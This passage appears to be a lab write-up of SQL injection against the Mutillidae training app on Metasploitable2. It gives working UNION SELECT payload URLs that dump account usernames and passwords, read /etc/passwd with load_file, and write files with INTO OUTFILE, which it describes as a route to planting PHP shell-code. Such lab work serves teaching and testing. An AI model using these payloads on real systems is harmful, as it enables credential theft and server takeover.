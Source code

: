 Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT:
![{1ED2C8BB-A5CD-43B0-BB96-87E701ECB7C3}](https://github.com/user-attachments/assets/21abf81d-e047-4793-a284-08fa17ecef5e)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{08DE6856-DD25-4D89-A338-91A57771534B}](https://github.com/user-attachments/assets/44300184-8a22-4802-88f0-f4e07d31d8bf)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
